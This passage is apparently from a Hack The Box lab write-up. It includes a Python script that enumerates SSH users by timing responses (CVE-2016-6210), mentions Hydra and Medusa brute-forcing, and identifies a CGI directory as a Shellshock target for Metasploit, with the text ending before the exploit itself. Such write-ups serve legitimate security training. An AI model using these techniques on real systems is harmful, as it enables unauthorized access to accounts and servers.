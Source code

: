 ### SSH

The OpenSSH 7.2p2 service is vulnerable to **CVE:2016-6210**.

> By sending large passwords, a remote user can enumerate users on system that runs SSHD. This problem exists in most
modern configuration due to the fact that it takes much longer to calculate SHA256/SHA512 hash than BLOWFISH hash.

Here is the python script:

{{< highlight python >}}

import paramiko
import time
user=raw_input("user: ")
p='A' * 25000
ssh = paramiko.SSHClient()
starttime=time.clock()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
try:
        ssh.connect('127.0.0.1', username=user,
        password=p)
except:
        endtime=time.clock()
total=endtime-starttime
print(total)

{{< /highlight >}}

**Note**: Valid users will result in higher total time.

With this method I was able to discover only the *root* user (nothing special), and then tried to brute force ssh with *Hydra* and *Medusa*, but without success.


### HTTP

The web page hosted at port 80 shows nothing more that an image. No links and the web page source code is not interesting.

I try to search for common URLs like resources like /index.php, /login.php, /cgi-bin and I can see that the server is running CGI as I receive a 403 status code - Forbidden - visiting `http://10.10.10.56/cgi-bin/`

**-> CGI programs are of primary concern in regards to shellshock vulnerabilities.**


![Shellshock](/images/htb/shellshock.png)

-> A very good article about this vulnerability: https://blog.cloudflare.com/inside-shellshock/

# Exploitation

The Metasploit module `apache_mod_cgi_bash_env` helps in checking for shellshock exploitability. In order for the module to work I need to specify an available CGI program / file to test. To find a valid resource I can conduct a dictionary attack on the web server and see If I can find something useful for the purpose:
